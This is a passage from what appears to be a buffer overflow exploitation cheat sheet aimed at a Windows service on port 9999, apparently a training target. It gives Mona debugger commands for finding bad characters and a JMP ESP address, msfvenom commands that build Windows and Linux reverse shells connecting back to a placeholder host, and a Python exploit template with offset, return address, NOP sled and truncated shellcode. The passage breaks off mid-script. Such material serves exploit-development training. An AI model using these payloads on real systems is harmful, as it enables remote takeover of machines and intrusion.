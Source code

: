 ### Mona Configuration
```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
!mona compare -f C:\mona\bytearray.bin -a [ESP_ADDRESS]
```

## Finding the Right Module

### Mona Commands
```
# List modules
!mona modules

# Find JMP ESP
!mona find -s "\xff\xe4" -m essfunc.dll

# Check for memory protections
!mona jmp -r esp -cpb "\x00"
```

## Generating Shellcode

### MSFvenom
```bash
# Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c

# Linux reverse shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -b "\x00" -f c
```

### Final Exploit Structure
```python
# Buffer overflow exploit template
import socket

# Target information
RHOST = "TARGET_IP"
RPORT = 9999

# Bad characters: \x00\x0a\x0d
# JMP ESP: 0x625011AF
# Shellcode: msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d" -f c

shellcode = ("\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1" + 
             "..." )  # Truncated for brevity

# Build the buffer
offset = 1978
buffer = ""
buffer += "A" * offset
buffer += "\xaf\x11\x50\x62"  # JMP ESP address in little endian
buffer += "\x90" * 32          # NOP sled
buffer += shellcode

# Send the exploit
try:
    print("[*] Sending exploit...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST, RPORT))
```